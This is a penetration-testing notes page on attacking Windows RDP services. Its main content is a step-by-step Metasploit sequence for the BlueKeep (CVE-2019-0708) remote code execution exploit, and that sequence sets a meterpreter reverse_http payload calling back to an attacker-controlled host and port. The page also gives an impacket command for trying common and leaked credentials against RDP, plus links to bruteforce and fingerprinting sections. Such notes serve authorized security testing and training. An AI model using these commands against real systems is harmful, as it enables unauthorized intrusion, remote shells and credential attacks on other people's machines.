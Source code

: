 # RDP

## 01 - CVE

### 1.1 - BlueKeep RCE

TODO: Fill this info

```
msf > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set payload windows/x64/meterpreter/reverse_http

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > options

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set targets <target>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rdp_client_ip <fake_IP>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rhosts <target_IP>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set lhost <attacker_IP>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set lport <attacker_PORT>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > run
```

## 02 - Check Common Credentials

Check some common and leaked credentials performing a password dictionary attack against and RDP service with impacket

```
$ rdp_check.py [<domain>/]<username>@<IP>
```

## 03 - Bruteforce

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xD - Password Cracking/Online/Network Protocols/Remote Services/Graphical Remote Program/RDP|section]] for bruteforcing RDP.

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/Remote Services/Graphical Remote Program/RDP|Active Fingerprinting: RDP]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xE - Remote Services Exploitation/Network Ports/Graphical Remote Program/RDP/FreeRDP|Remote Services Exploitation: RDP]]

- [Rapid7: Metasploit Framework - Bluekeep Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.md)

- [Sploitify: Bluekeep CVE-2019-0708](https://sploitify.haxx.it/exploits/2019/CVE-2019-0708/)